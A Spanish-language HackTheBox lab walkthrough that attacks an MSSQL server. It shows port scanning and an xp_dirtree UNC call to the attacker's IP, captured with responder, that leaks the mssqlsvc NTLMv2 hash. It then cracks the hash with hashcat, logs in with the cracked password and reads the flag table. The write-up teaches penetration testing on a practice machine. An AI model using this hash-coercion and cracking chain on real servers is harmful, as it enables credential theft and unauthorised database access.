


# Laboratorio MSSQL 🅱

Como primer punto tenemos que **enumerar** los puertos disponibles en la máquina objetivo

```bash
nmap -p- -sS -Pn -n <IP> -oN ports
```

**Output**

<p align="center">
    
</p>

---

Nos conectamos al servicio **MSSQL** con las credenciales que nos proporciona HackTheBox `htbdbuser:MSSQLAccess01!`

* `impacket-mssqlclient htbdbuser@[IP]`

---

Si exploramos en la base de datos vemos que nos tenemos acceso a `flagDB`, así que primero, tenemos que convertirnos en el usuario **`mssqlsvc`**, para esto extraeremos su hash.

1. Usamos **responder**: `responder -I tun0`
2. Ejecutamos el siguiente comando en MSSQL: `EXEC master..xp_dirtree '\\[Tun0 IP]\share'`

Ahora tenemos el hash NTLMv2 de `mssqlsvc`

<p align="center">
    
</p>

3. Lo crackeamos con **`hashcat`**

* `hashcat -a 3 -m 5600 hash /home/kali/Desktop/rockyou.txt`

**Output**
```
Candidates.#1....: princess1 -> princess1
```

---

4. Ahora nos logueamos en MSSQL con las nuevas credenciales `mssqlsvc:princess1`

* `impacket-mssqlclient mssqlsvc@[IP] -windows-auth`


* Listamos las bases de datos
    * `SQL> SELECT name from sys.databases;`


    ```
    master
    tempdb
    model
    msdb
    hmaildb
    flagDB 
    ```

* Seleccionamos `flagDB`
  * `USE flagDB;`

* Listamos las tablas
  * `SELECT * FROM INFORMATION_SCHEMA.TABLES;`

    ```
    tb_flag
    ```

* Mostramos todos los registros de esa tabla
    * `SELECT * FROM tb_flag;`

    `HTB{!_l0v3_#4$#!n9_4nd_r3$p0nd3r}`